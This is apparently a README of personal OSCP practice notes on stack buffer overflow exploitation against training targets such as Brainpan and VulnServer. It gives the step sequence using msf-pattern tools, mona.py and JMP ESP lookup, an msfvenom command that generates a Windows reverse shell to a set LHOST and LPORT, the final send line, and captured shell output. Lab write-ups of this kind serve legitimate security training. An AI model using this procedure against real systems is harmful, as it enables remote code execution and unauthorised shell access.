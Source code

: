 # OSCP-BUFFER-OVERFLOW-PREP
This Repositry has my own practice notes of Buffer overflow Vulnrable Machine in easy,Beginer way.Please make sure to check every file so that it will be easy to understand how buffer overflow work and why you'll be learning => Fuzzing,Crashing,building simple script,finding badchar,using mona.py,genrating shell code.....
and more.

If You have fear of buffer overflow, then i'll say bro just chill it is easy. Make some practice.
you have to follow som steps to get the shell of victim host.
Brainpain,VulnServer,Ftp,Buffer Overflow prep from Tryhack me root by tib3rius sir.....and more comming soon
Be Connected Thank you!!


The very firs step is to getting the crash byte after knowing the host and port,vuln param 
of the server.....

Part 1

    Fuzzing the service parameter and getting the crash byte
    Generating the pattern
    Finding the correct offset where the byte crashes with the help of (EIP)

Part 2

    Finding the bad character with mona.py, and comparing bad character strings with mona.py
    Finding return address (JMP ESP) with mona.py

Part 3

    Setting breakpoint to verify RETURN address is correct or not
    Creating reverse shell with the help of msfvenom
    Adding NOP’s to the script
    Getting shell





1)So for the Any binary we have to fuzz from 100 to Untill crash the program,
   
    To do so first we have to find out which input parameter of the program is vulnrable to buffur overflow (Note this will be given).
    Then find out the crash byte of the program by fuzzing the parameter(Fuzzing just mean to send the payload again and again to crash the program).
 
   

2)Creating offset value. with msf 
     
     > /usr/bin/msf-pattern_create -l 3000
    where 3000 is Crash byte of the program when send Note Down the eip (Make sure to verify once again by restarting the immunity and this time send 'A'*crashbyte and          'B'*4 after the crashing   again you'll be able to see the 42424242 in EIP  )
 
   After getting the crash byte we have to control the intruction pointer
   to do this we'll use the msf venome 

3)Since we've the EIP adress where program crashed we'll genrate offset to get the exact crash byte where prgram crashed.

    /usr/bin/msf-pattern_offset -l 3000 -q 35724134 (where 35724134 value of eip)
    output- [*] Exact match at offset 524 


4)After getting the offset value wee need to perform the overflow with some more thing 
     
     now we have offset=524
     eip="B" * 4 (this will always contain the eip address after crashing the program as 42424242 whic is hex of B )
     shellcode= "C"* 400 (this is the space where the stack in buffer fill with  shell code )

5)Creating the working dir in im-debug
    
     '!mona config -set workingfolder c:\logs\%p' 

 Now next is to finding the bad char with the help of all possible hex

6)To do this we have to create an array with mona.py to compair with out paylod

    !mona bytearray -b '\x00'
    
    This mona command will genrate an array of all possible hex of char.into two file on bytearry.txt another is bytearray.bin 
    Where bytearray.txt contain possible hex excet what we input in !mona command like '\x00' will not be in the list.and mona will compaire this array with
    bytearray.bin 
    we will be using byearray.txt as our badchar payload... to find out this using mone in your windows machine. 
    >superkey + r => c:/logs/oscp/bytearray.txt ('where oscp is program name insert the value and hit enter. ')
    Using this as badchar you can send the payload. Or you can genrate it by the badchargenrater.py you can find in this repo. 

7)Now we have to verify if ther's any  badchar ("This is very importat phase of exploitation be careful while doing..") as well find out them other wise our shell code will pe break where the bad char exist in our payload.
    
    !mona compare -f C:\logs\brainpan\bytearray.bin -a 005FF910
    
    if the popup result is unmodified and normal  then ther's only one badchar  ecept: "/x00"
    
    else again genrate the badchar using mona copy again the hex('this is the only critical part')
    sometime you'll see bad char are too many like  00 8c 8d  ae af be bf fb fc in this case you've to skip the one who is showing just because the erlier of the char 
    is bad in simple => x00\x8c\xae\xbe\xfb ('this is actual bad char ') i just skiped 8d af bf fc because they are just showing in case of erlier one is bad.
    hope it making sence.please check out another binaries listed above.
   

   Now we have to find the jump esp location 

8)Check if there is any module that is vulnrable and false by os
     
     !mona modules 
     ther's a module brainpain.exe

9)To get the jump statment have to perform this command
    
    !mona find -s "\xff\xe4" -m baianpan.exe
    this will retun the address of jump eip
    save the jump eip 311712f3 set this eip in payload as
    eip=eip= '\xf3\x12\x17\x31'
   
 Or you can get the jump stack pointer location by using this mathod too
    
    !mona jmp -r esp -cpb "\x00\x8c\xae\xbe\xfb"   #where '\x00...' value is bad char value..
    
    after putting this command immunity will pop a screen where the jump satack pointer location will be written like:
     625011af   ..........here will be module name...........
     
    jumpesp="\xaf\x11\x50\x62"   (this is the  little-endian form)


10)Setting the break point to check does it working or not ('this step is not necessary to perform you can jump to genrating the shell code')
    
     bp 0x311712f3
     to verify the break point is set view>view breakpoint>

11)Now set the  eip to  and try run again the payload 
    
    this will pass the program and jump to our brekpoint now 
    when resume the program it will retrun to shellcode that we given as payld

12)Creating the reverse shell code with the help of the msfvenome
    
    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.43.132 LPORT=1234 -b '\x00' -f c

    where(-b is bad character and -f c is the revershell in c language

13)And add the nops valu (I'm using this because maybe control jump by leaving 8 or 16 bytes after the shell code)
    
    nops='\x90' * 20
    final command to send will be look like ==> s.send('OVERFLOW7 ' + buffer + jumpesp + nops + shellcode +'\r\n')

15)After the sending the payload (make sure to satart nc to listen )it might be the im_debug will pause so we have to tap on play again .....boom we got the shell

C:\Users\Saimson\Downloads>

C:\Users\Saimson\Downloads>whoami
whoami
desktop-hup6j62\saimson 


